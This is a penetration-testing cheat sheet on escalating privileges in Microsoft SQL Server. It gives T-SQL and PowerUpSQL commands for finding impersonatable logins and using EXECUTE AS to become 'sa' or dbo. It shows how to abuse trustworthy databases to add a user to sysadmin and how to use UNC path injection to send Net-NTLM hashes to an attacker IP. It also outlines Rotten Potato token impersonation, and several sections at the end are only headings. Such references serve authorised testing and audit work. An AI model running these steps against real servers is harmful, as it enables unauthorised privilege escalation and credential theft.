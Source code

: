 # Find Impersonatable Accounts

```
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
```

> https://blog.netspi.com/hacking-sql-server-stored-procedures-part-2-user-impersonation/

```
Invoke-SQLAuditPrivImpersonateLogin -Username un -Password pw -Instance dbname -Verbose
```

# Execute As

```
EXECUTE AS LOGIN = 'dbadmin'
```

```
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')

EXECUTE AS LOGIN = 'dbadmin'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
SELECT ORIGINAL_LOGIN()

EXECUTE AS LOGIN = 'sa'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
SELECT ORIGINAL_LOGIN()
```
> https://docs.microsoft.com/en-us/sql/t-sql/statements/execute-as-transact-sql

# Trustworthy Databases

* `is_trustworthy_off` by default (Only a sysadmin can change).
* When `off` impersonated users will only have database-scope permissions.
* When `on` impersonated users can perform actions with server level permissions.
* Allows writing procedures that can execute code with server level permission.

If `is_trustworthy_on` and if a `sysadmin` (not necessarily `sa`) is owner of the database, it is possible for the database owner (a user with `db_owner`) to elevate privileges to `sysadmin`.

> https://docs.microsoft.com/en-us/sql/relational-databases/security/trustworthy-database-property
> http://sqlity.net/en/1653/the-trustworthy-database-property-explained-part-1/

## Discover Trustworthy Databases

```
SELECT name as database_name
, SUSER_NAME(owner_sid) AS database_owner
, is_trustworthy_on AS TRUSTWORTHY
from sys.databases
```

```
Invoke-SQLAudit -Instance instance-name -Verbose | Out-GridView
Invoke-SQLAuditPrivTrustworthy -Instance instance-name -Verbose
```

## Exploitation

Add `sysadmin` to `myuser`:

```
EXECUTE AS USER = 'dbo'
SELECT system_user
EXEC sp_addsrvrolemember 'example.com\myuser','sysadmin'
```

# Public to Service Account

## UNC Path Injection

* Capture Net-NTLM (also known as NTLMv1/v2) hashes
* Stored procedures like `xp_dirtree` and `xp_fileexist` can be used to capture Net-NTLM hashes

```
Invoke-SQLUncPathInjection -Verbose -CaptureIp 192.168.1.11
```

UNC Path Injection cheatsheet:

> https://gist.github.com/nullbind/7dfca2a6309a4209b5aeef181b676c6e

# Service Account to System

## Rotten Potato

* Trick the "NT AUTHORITY\SYSTEM" account into authenticating via NTLM to a TCP endpoint attacker control.
* Man-in-the-middle this authentication attempt (NTLM relay) to locally negotiate a security token for the “NT AUTHORITY\SYSTEM” account
* Impersonate the token we have just negotiated.
* Usable only if attackers current account has the privilege to impersonate security tokens.

> https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/

## Extracting service account credentials from LSA Secrets and/or memory

## Token Impersonation for the SQL Server service

## Single user mode
